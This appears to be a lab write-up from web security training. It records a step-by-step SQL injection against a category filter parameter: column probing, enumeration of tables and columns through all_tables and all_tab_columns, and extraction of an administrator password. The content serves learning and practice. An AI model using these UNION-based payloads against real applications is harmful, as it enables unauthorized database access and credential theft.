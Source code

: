 # Mystery lab #6

GET /filter?category=Gifts'+UNION+SELECT+NULL,+NULL+FROM+all_tables--+ HTTP/1.1

HTTP/1.1 200 OK



GET /filter?category=Gifts'+UNION+SELECT+'NULL',+'NULL'+FROM+all_tables--+ HTTP/1.1

HTTP/1.1 200 OK



GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+all_tables--+ HTTP/1.1

HTTP/1.1 200 OK
<th>USERS_RYWMMM</th>



GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_RYWMMM'--+ HTTP/1.1

HTTP/1.1 200 OK
<th>USERNAME_DUKAMJ</th>
<th>PASSWORD_RYDASW</th>


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_RYDASW+FROM+USERS_RYWMMM+WHERE+USERNAME_DUKAMJ='administrator'--+ HTTP/1.1

HTTP/1.1 200 OK
<td>f255lrifnuzupmv25agq</td>

